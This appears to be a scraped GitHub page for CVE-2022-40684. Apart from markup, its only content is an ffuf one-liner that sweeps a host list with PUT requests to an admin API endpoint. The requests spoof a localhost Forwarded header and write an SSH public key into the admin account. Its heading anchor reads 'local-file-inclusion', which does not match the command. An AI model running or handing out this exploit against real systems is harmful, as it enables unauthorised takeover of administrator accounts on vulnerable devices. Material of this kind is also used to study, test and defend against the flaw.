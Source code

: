 
 # CVE-2022-40684
<h3 dir="auto"><a id="user-content-local-file-inclusion" class="anchor" aria-hidden="true" href="#local-file-inclusion"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-495 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a></h3>
<blockquote>
<p dir="auto">@h4x0r_dz
</blockquote>

<table style="width: 100%;">
    <tbody>
        <tr>
            <td style="width: 100.0000%;">ffuf -w &quot;host_list.txt:URL&quot; -u &quot;<a data-fr-linked="true" href="https://URL/api/v2/cmdb/system/admin/admin">https://URL/api/v2/cmdb/system/admin/admin</a>&quot; -X PUT -H &apos;User-Agent: Report Runner&apos; -H &apos;Content-Type: application/json&apos; -H &apos;Forwarded: for=&quot;[127.0.0.1]:8000&quot;;by=&rdquo;[127.0.0.1]:9000&quot;;&apos; -d &apos;{&quot;ssh-public-key1&quot;: &quot;h4x0r&quot;}&apos; -mr &quot;SSH&quot; -r<br></td>
        </tr>
    </tbody>
</table>
